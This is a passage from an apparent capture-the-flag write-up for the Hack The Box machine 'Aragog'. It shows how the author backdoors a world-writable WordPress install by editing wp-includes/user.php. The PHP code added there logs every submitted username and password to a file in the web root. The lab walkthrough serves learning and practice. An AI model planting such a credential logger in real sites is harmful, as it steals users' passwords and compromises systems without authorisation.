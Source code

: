 Scrolling through the webpage I find an interesting post which says:

<img src="/img/blog/htb-aragog/htb-aragog-09.png">

In case you can't see the image:
```
Hi Florian, Thought we could use a wiki.  Feel free to log in and have a poke around – but as I’m messing about with a lot of changes I’ll probably be restoring the site from backup fairly frequently! I’ll be logging in regularly and will email the wider team when I need some more … 
```

The line where Cliff says "I’ll be logging in regularly" is very important. If you recall, I mentioned that cracking the Administrator's password from the MySQL database failed. Well, why bother with cracking? The Wordpress directory in */var/www/html/dev_wiki/* is writable by everyone which means that we should be easily able to backdoor a file which is in charge of handling logins. Simply said, we can keylogg Cliff's login attempt and capture his password.

Here is a php one liner I found to work:
{% highlight php %} file_put_contents("/var/www/html/dev_wiki/wp-includes/v3ded.php", $_POST['log'] . " : " . $_POST['pwd'] . "\n", FILE_APPEND);{% endhighlight %}. You can place it into multiple locations - `wp-login.php` or `wp-includes/user.php`. 

I'll go with the latter. Edit the *wp-includes/user.php* file so line 39 onwards looks like this:
{% highlight php %}

if ( ! empty($_POST['pwd']) ) {
	$credentials['user_password'] = $_POST['pwd'];
	file_put_contents("/var/www/html/dev_wiki/wp-includes/v3ded.php", $_POST['log'] . " : " . $_POST['pwd'] . "\n", FILE_APPEND);

}
...
...
...

{% endhighlight %}

<img src="/img/blog/htb-aragog/htb-aragog-10.png">
